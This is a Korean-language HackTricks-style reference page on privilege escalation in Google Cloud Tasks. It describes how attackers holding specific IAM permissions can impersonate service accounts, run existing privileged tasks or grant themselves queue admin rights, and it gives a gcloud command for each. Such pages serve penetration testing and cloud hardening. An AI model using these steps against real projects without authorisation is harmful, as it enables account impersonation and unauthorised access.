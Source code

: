 # GCP - Cloud Tasks Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Tasks

### `cloudtasks.tasks.create`, `iam.serviceAccounts.actAs`

이 권한을 가진 공격자는 **다른 서비스 계정을 가장할 수 있습니다**. 이는 지정된 서비스 계정의 신원으로 실행되는 작업을 생성함으로써 가능합니다. 이를 통해 **IAM으로 보호된 Cloud Run 또는 Cloud Functions** 서비스에 **인증된 HTTP 요청을 보낼 수 있습니다**.
```bash
gcloud tasks create-http-task \
task-$(date '+%Y%m%d%H%M%S') \
--location us-central1 \
--queue <queue_name> \
--url 'https://<service_name>.us-central1.run.app' \
--method POST \
--header 'X-Hello: world' \
--body-content '{"hello":"world"}' \
--oidc-service-account-email <account>@<project_id>.iam.gserviceaccount.com
```
### `cloudtasks.tasks.run`, `cloudtasks.tasks.list`

이 권한을 가진 공격자는 **기존의 예약된 작업을 실행**할 수 있으며, 작업과 연결된 서비스 계정에 대한 권한이 필요하지 않습니다. 이는 이전에 더 높은 권한을 가진 서비스 계정으로 생성된 작업을 실행할 수 있게 해줍니다.
```bash
gcloud tasks run projects/<project_id>/locations/us-central1/queues/<queue_name>/tasks/<task_id>
```
이 명령을 실행하는 주체는 **작업의 서비스 계정에 대한 `iam.serviceAccounts.actAs` 권한이 필요하지 않습니다**. 그러나 이는 기존 작업을 실행할 수만 있게 하며, 작업을 생성하거나 수정할 수 있는 권한은 부여하지 않습니다.

### `cloudtasks.queues.setIamPolicy`

이 권한을 가진 공격자는 **특정 큐에서 자신이나 다른 주체에게 Cloud Tasks 역할을 부여할 수 있습니다**, 이는 `roles/cloudtasks.admin`로 상승할 수 있으며, 여기에는 작업을 생성하고 실행할 수 있는 능력이 포함됩니다.
```bash
gcloud tasks queues add-iam-policy-binding \
<queue_name> \
--location us-central1 \
--member serviceAccount:<account>@<project_id>.iam.gserviceaccount.com \
--role roles/cloudtasks.admin
```
이것은 공격자가 자신이 제어하는 서비스 계정에 대해 큐에 대한 전체 Cloud Tasks 관리자 권한을 부여할 수 있게 합니다.

## References

- [Google Cloud Tasks Documentation](https://cloud.google.com/tasks/docs)

{{#include ../../../banners/hacktricks-training.md}}
